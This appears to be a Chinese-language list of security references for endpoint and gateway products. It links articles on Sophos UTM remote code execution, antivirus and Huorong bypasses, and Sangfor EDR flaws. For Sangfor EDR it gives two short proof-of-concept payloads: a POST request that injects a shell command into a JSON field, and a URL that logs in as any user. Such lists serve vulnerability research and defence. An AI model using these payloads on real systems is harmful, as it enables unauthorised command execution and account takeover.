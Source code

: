 ### 威胁感知

**Sophos UTM**
- **CVE-2020-25223-Sophos UTM WebAdmin 远程命令执行漏洞**
    - 相关文章
        - [CVE-2020-25223-Sophos UTM WebAdmin 远程命令执行漏洞分析](https://mp.weixin.qq.com/s/y14JalXGMvlBwsUkrC3rnQ)

---

## 终端响应与检测

**相关文章**
- [绕过集中管控类安全软件小技巧](https://www.t00ls.net/articles-58584.html)

### 杀软

**利用杀毒软件删除任意文件**
- 相关文章
    - [Exploiting (Almost) Every Antivirus Software](https://www.rack911labs.com/research/exploiting-almost-every-antivirus-software/)
        - [利用杀毒软件删除任意文件](https://idiotc4t.com/defense-evasion/using-antivirus-to-delete-files)

**白名单信任文件**
- 相关文章
    - [通过信任文件绕过火绒](https://mp.weixin.qq.com/s/mw8Sql8VtGfNGQkFxptWnQ)

### EDR

**深信服 EDR**
- 相关文章
    - [深信服DER RCE 复现](https://www.o2oxy.cn/3145.html)

- **2020.08命令执行**
    - 相关文章
        - [深信服终端检测响应平台 EDR 代码审计](https://www.sqlsec.com/2020/08/edr.html)
    - POC | Payload | exp
        - [A2gel/sangfor-edr-exploit](https://github.com/A2gel/sangfor-edr-exploit)

- **2020.09命令执行**
    - POC | Payload | exp
        ```
        POST /api/edr/sangforinter/v2/cssp/slog_client?token=eyJtZDUiOnRydWV9
        {"params":"w=123\"'1234123'\"|命令"}
        ```

- **后台任意用户登陆**
    - POC | Payload | exp
        ```
        xxx.xxx.xxx.xxx/ui/login.php?user=admin
        ```

**360天擎**
